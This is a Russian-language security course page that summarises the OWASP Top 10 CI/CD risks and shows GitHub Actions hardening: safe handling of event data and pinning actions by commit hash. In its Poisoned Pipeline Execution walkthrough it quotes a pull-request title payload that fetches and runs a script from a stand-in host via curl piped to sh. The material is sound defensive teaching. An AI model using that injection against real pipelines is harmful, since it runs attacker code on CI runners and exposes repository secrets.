---
hide:
  - toc
title: "OWASP Top 10 CI/CD Risks | Курс AppSec"
description: "OWASP Top 10 CI/CD Security Risks по-русски: десять рисков CICD-SEC-1…10, как атакуют и как защищаться, разбор Poisoned Pipeline Execution."
keywords: "OWASP, CI/CD, DevSecOps, риски, GitHub Actions, pipeline, секреты, AppSec, SCM, supply chain, зависимости, конвейер, Шмаков Илья, Elijah Shmakov, geminishkv, AppSecTA"
---

<div class="hero-section hero-section--compact">
  <div class="hero-content">
    <h1 class="hero-title">OWASP — CI/CD Risks</h1>
    <p class="hero-sub">Десять рисков конвейера поставки: CICD-SEC-1…10</p>
  </div>
</div>

## О документе

OWASP Top 10 CI/CD Security Risks — список десяти самых опасных слабых мест конвейеров сборки и доставки. Он вырос из разбора реальных атак на цепочку поставки: взломщику незачем ломать приложение, если можно изменить то, что его собирает. Конвейер исполняет чужой код, хранит секреты и имеет право выкатывать в production — это самая привилегированная часть инфраструктуры разработки.

Риски обозначаются `CICD-SEC-1` … `CICD-SEC-10`. Номер — это идентификатор, а не место в рейтинге: порядок в списке не означает важность.

На практике страница нужна для [Лаб. 09 · DevSecOps CI/CD на GitHub Actions](../../labs/basic/lab09.md): каждое требование к workflow в ней закрывает один из этих рисков.

## Где в конвейере бьёт каждый риск

Схема показывает путь изменения от разработчика до релиза и то, какие риски действуют на каждом этапе.



**Как читать схему:**

- Рамки — этапы конвейера, внутри блоков подписаны риски, которые действуют именно здесь. `SEC-4` означает `CICD-SEC-4`.
- На этапе «Репозиторий» решается, попадёт ли изменение в конвейер вообще: без контроля потока (SEC-1) остальные меры обходятся одним push.
- Самый плотный этап — «Сборка»: здесь исполняется чужой код (SEC-3, SEC-8), и у него под рукой секреты и права конвейера (SEC-5, SEC-6).
- Три риска на схему не попали, потому что относятся ко всей цепочке сразу: учётные записи (SEC-2), настройка самих систем (SEC-7) и журналы (SEC-10).

Обозначения — в материале [Как читать схемы курса](../diagrams_legend.md).

## Десять рисков

<div class="lab-grid" style="grid-template-columns: repeat(auto-fill, minmax(min(19rem, 100%), 1fr));">

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-1</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Insufficient Flow Control Mechanisms</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Один человек или один токен может довести изменение до production без чужого подтверждения.</dd>
    <dt>Атака</dt><dd>Взломанная учётная запись разработчика пушит код прямо в основную ветку или сама одобряет свой pull request; правило авто-слияния пропускает изменение без ревью.</dd>
    <dt>Защита</dt><dd>Защита основной ветки, обязательное ревью другим человеком, запрет одобрять собственный pull request, минимум правил авто-слияния.</dd>
    <dt>В курсе</dt><dd>Так сдаются лабораторные: работа в <code>develop</code>, pull request, approve преподавателя.</dd>
  </dl>
  </div>

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-2</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Inadequate Identity and Access Management</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Учётных записей много, они разбросаны по SCM, CI и реестрам, и прав у них больше, чем нужно.</dd>
    <dt>Атака</dt><dd>Забытая учётная запись уволенного сотрудника, личная почта вместо корпоративной, общий аккаунт на команду, внешний подрядчик с правами администратора.</dd>
    <dt>Защита</dt><dd>Реестр учётных записей, минимальные права, отключение неактивных, SSO и MFA, никаких общих аккаунтов.</dd>
    <dt>В курсе</dt><dd><code>gh auth status</code> показывает, какие права выданы вашему токену, — в шпаргалке GitHub CLI.</dd>
  </dl>
  </div>

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-3</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Dependency Chain Abuse</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Сборка сама скачивает и исполняет чужой код — зависимости.</dd>
    <dt>Атака</dt><dd>Dependency confusion (публичный пакет с именем внутреннего), typosquatting (имя с опечаткой), захват заброшенного пакета. Вредоносный код выполняется уже на этапе установки.</dd>
    <dt>Защита</dt><dd>Лок-файлы с хешами, закреплённые версии, свой прокси-реестр, области имён (scopes), запрет install-скриптов там, где они не нужны.</dd>
    <dt>В курсе</dt><dd>Лаб. 07: анализ зависимостей (SCA); в Лаб. 09 версии инструментов закреплены.</dd>
  </dl>
  </div>

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-4</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Poisoned Pipeline Execution</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Имея доступ только к репозиторию, атакующий заставляет конвейер выполнить свои команды.</dd>
    <dt>Атака</dt><dd>Прямая: правка файла workflow в своей ветке. Косвенная: правка того, что конвейер запускает, — Makefile, скрипта, теста. Публичная: pull request из форка в открытый репозиторий.</dd>
    <dt>Защита</dt><dd>Непроверенный код — на изолированных runner-ах без секретов; файлы конвейера под защитой ветки и CODEOWNERS; данные из событий — только через <code>env</code>.</dd>
    <dt>В курсе</dt><dd>Разобрано ниже с примером; <code>pull_request_target</code> — в шпаргалке GitHub Actions Security.</dd>
  </dl>
  </div>

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-5</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Insufficient Pipeline-Based Access Controls</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Job конвейера видит больше, чем ему нужно: секреты, соседние конвейеры, хост, сеть.</dd>
    <dt>Атака</dt><dd>Один скомпрометированный шаг (например, вредоносная зависимость) читает все секреты репозитория и пишет в него с правами конвейера.</dd>
    <dt>Защита</dt><dd>Минимальные права на каждый job, секреты по окружениям, одноразовые runner-ы, раздельные runner-ы для доверенного и недоверенного кода.</dd>
    <dt>В курсе</dt><dd>Лаб. 09: блок <code>permissions</code> в workflow, по умолчанию только <code>contents: read</code>.</dd>
  </dl>
  </div>

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-6</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Insufficient Credential Hygiene</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Секреты лежат там, где их можно найти: в коде, в истории Git, в логах сборки, в слоях образа.</dd>
    <dt>Атака</dt><dd>Поиск по истории репозитория и по публичным логам CI; секрет, который ни разу не меняли, работает и через год после утечки.</dd>
    <dt>Защита</dt><dd>Сканирование секретов до коммита и в конвейере, ротация, короткоживущие токены (OIDC) вместо вечных, запрет печатать секреты в лог.</dd>
    <dt>В курсе</dt><dd>Лаб. 07: gitleaks и TruffleHog; Лаб. 09: секреты репозитория через <code>secrets.*</code>.</dd>
  </dl>
  </div>

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-7</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Insecure System Configuration</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Сами системы конвейера — SCM, CI-сервер, реестр артефактов — настроены небезопасно.</dd>
    <dt>Атака</dt><dd>Необновлённый self-hosted CI с известной уязвимостью, пароль по умолчанию, панель администратора, доступная из интернета.</dd>
    <dt>Защита</dt><dd>Инвентаризация и обновления, настройка по бенчмаркам (CIS), закрытый сетевой доступ, регулярная сверка конфигурации.</dd>
    <dt>В курсе</dt><dd>Лаб. 06 показывает сам подход: проверка конфигурации по CIS Docker Benchmark.</dd>
  </dl>
  </div>

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-8</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Ungoverned Usage of 3rd Party Services</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Сторонние приложения, интеграции и actions получают доступ к репозиторию без учёта и пересмотра.</dd>
    <dt>Атака</dt><dd>Компрометация популярного action: теги переставляются на вредоносный коммит, и он выполняется во всех конвейерах, где action подключён по тегу.</dd>
    <dt>Защита</dt><dd>Согласование перед подключением, actions только по хешу коммита, минимальные права приложений, регулярное удаление неиспользуемых.</dd>
    <dt>В курсе</dt><dd>Лаб. 09: все actions закреплены по хешу; как получить хеш — раздел API в шпаргалке GitHub CLI.</dd>
  </dl>
  </div>

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-9</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Improper Artifact Integrity Validation</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Нельзя доказать, что в production попало именно то, что собрано из проверенного кода.</dd>
    <dt>Атака</dt><dd>Подмена артефакта в реестре или скрипта установки по пути: конвейер скачивает и запускает изменённый файл, не сверяя его ни с чем.</dd>
    <dt>Защита</dt><dd>Подпись коммитов и артефактов, сверка контрольных сумм скачанных инструментов, SBOM и аттестации происхождения, деплой образа по digest.</dd>
    <dt>В курсе</dt><dd>Лаб. 01: подписанные коммиты и теги; реестр образов и деплой по digest — в справочнике портов.</dd>
  </dl>
  </div>

  <div class="lab-card" style="flex-direction: column; align-items: flex-start; gap: 0.5rem;">
  <div style="display:flex; align-items:baseline; gap:0.6rem; width:100%; flex-wrap:wrap;">
    <span class="lab-card-num" style="font-size:0.9rem; width:auto;">CICD-SEC-10</span>
    <span style="font-size:0.65rem; color:#888; font-family:var(--font-code);">Insufficient Logging and Visibility</span>
  </div>
  <dl class="lab-card-facts">
    <dt>Суть</dt><dd>Журналов нет или их никто не смотрит, поэтому атаку нельзя ни заметить, ни расследовать.</dd>
    <dt>Атака</dt><dd>Добавленный deploy-ключ, изменённое правило защиты ветки или новый workflow остаются незамеченными месяцами.</dd>
    <dt>Защита</dt><dd>Включённый audit log, отправка журналов в SIEM, оповещения о событиях: новые ключи, смена правил защиты, правки workflow.</dd>
    <dt>В курсе</dt><dd>Лаб. 09: отчёты сканеров сохраняются артефактами запуска — их можно поднять и после прогона.</dd>
  </dl>
  </div>

</div>

## Как происходит атака: схема на каждый риск

Каждая схема читается сверху вниз: с чего начинает нарушитель, какое место конвейера он использует и к чему это приводит. Ромб — место, где атаку останавливает защита: ветка «Да» показывает, что происходит при работающей защите, ветка «Нет» — итог при её отсутствии. Меры защиты по каждому риску разобраны в карточках выше. Обозначения фигур — в справочнике [Схемы курса](../diagrams_legend.md).

### CICD-SEC-1 · Insufficient Flow Control Mechanisms



### CICD-SEC-2 · Inadequate Identity and Access Management



### CICD-SEC-3 · Dependency Chain Abuse



### CICD-SEC-4 · Poisoned Pipeline Execution



### CICD-SEC-5 · Insufficient Pipeline-Based Access Controls



### CICD-SEC-6 · Insufficient Credential Hygiene



### CICD-SEC-7 · Insecure System Configuration



### CICD-SEC-8 · Ungoverned Usage of 3rd Party Services



### CICD-SEC-9 · Improper Artifact Integrity Validation



### CICD-SEC-10 · Insufficient Logging and Visibility



## Разбор: Poisoned Pipeline Execution в GitHub Actions

Самый частый вариант — внедрение команд через данные события. Заголовок pull request, имя ветки, текст комментария пишет посторонний человек, а выражение `${{ }}` подставляется в скрипт до его запуска — как текст, а не как значение переменной.

```yaml
# Уязвимо: заголовок pull request становится частью shell-команды.
# Заголовок вида  a"; curl https://evil.example/x.sh | sh; echo "  выполнится на runner-е
- run: echo "PR: ${{ github.event.pull_request.title }}"
```

```yaml
# Безопасно: значение приходит в переменную окружения и остаётся данными
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "PR: $PR_TITLE"
```

!!! warning "Правило"
    Всё, что приходит из `github.event.*`, — недоверенный ввод: заголовки и тексты pull request и issue, имена веток, сообщения коммитов, логины. В `run:` такие значения попадают только через `env:`.

Второй вариант — триггер `pull_request_target`. В отличие от `pull_request`, он запускается в контексте основной ветки: с секретами и с правом записи. Если такой workflow забирает и исполняет код из pull request, секреты репозитория достаются любому, кто открыл pull request из форка.

## Разбор: сторонние actions по хешу коммита

Тег action — это указатель, который владелец репозитория может переставить на другой коммит. Так и устроены атаки на цепочку поставки через actions: после взлома популярного action его теги переводят на вредоносный коммит, и тот выполняется во всех конвейерах, подключивших action по тегу. Конвейеры, где action закреплён по хешу коммита, продолжают запускать прежний, проверенный код.

```yaml
- uses: actions/checkout@v4                                        # тег: можно переставить
- uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1 — хеш: переставить нельзя
```

Хеш для тега получают через `gh api` — команда есть в разделе API [шпаргалки GitHub CLI](../cheatsheet/CHEATSHEET_GH_CLI.md). Обновлять закреплённые хеши помогает Dependabot с экосистемой `github-actions`.

## Смотри также

- [CheatSheet: GitHub Actions Security](../cheatsheet/CHEATSHEET_GH_ACTIONS_SECURITY.md) — права, триггеры, секреты
- [Supply Chain Attacks](../examples/supply_chain_attacks.md) — разбор реальных атак на цепочку поставки
